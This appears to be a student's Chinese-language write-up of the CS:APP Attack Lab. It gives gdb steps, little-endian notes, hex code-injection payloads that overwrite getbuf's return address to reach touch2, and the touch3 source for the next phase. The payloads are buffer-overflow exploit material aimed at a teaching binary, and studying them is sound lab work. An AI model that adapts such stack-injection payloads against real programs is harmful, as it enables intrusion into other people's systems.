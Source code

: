 ```cpp
上面这一段代码执行完之后会跳转到 0x4017ec
为了执行上面这段代码，要按照level1的方法
把getbuf函数的返回地址设置为这段代码的开头

gdb *0x40017ac
b getbuf
r -q
info r rsp
可以看到执行该函数时%rsp的值是
0x5561dc78
关于小端序
高字节数据会放到低地址，也就是前面的十六进制会放到低地址
而程序的执行是从低地址到高地址

所以答案
bf e2 2c 20 00 81 c7 02 
18 40 00 67 8b 3f 68 ec 
17 40 00 c3 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00

或者汇编指令/寄存器是 movq addq rdi
对应答案:
48 c7 c7 e2 2c 20 00 48 
81 c7 02 18 40 00 48 8b 
3f 68 ec 17 40 00 c3 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00
将上面的十六进制数存为level2.txt然后
cat level2.txt | ./hex2raw | ./ctarget -q
```

# phase3 (4.3)

```cpp
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    //把val转换成16进制输出到s(显示8位)
    sprintf(s, "%.8x", val);
    //比较前9位 有一个字符串结束符所以比较8位
    return strncmp(sval, s, 9) == 0;
    
}

void touch3(char *sval){
    vlevel = 3;
    //输入的字符串要跟cookie值相同
    //gdb 但是根据汇编代码 gdb值是6044e4?
    //参数顺序rdi rsi 
    if(hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else{
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
401908 mov %rdi, %rsi
```